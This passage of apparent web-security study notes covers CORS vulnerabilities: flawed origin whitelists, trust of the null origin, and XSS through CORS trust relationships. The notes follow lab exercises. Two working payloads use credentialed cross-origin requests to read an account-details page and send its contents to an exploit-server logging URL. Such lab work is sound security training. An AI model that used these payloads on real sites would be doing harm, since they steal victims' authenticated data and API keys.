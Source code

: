 ##### Errors parsing Origin headers

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

##### Whitelisted null origin value

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a05002a03eeb60c81451bb1008e00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://exploit-0a69000603efb602816f1a6c0109009e.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

#### Exploiting XSS via CORS trust relationships

```
<script> document.location="http://stock.0a6500ef0389b5e4812a5c2e00c1001b.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a6500ef0389b5e4812a5c2e00c1001b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ad90010039ab5dc81185be9017500f3.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```

#### Intranet and CORS without credentials

##### Most CORS attacks rely on the presence of the response header:

```
Access-Control-Allow-Credentials: true
```

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.
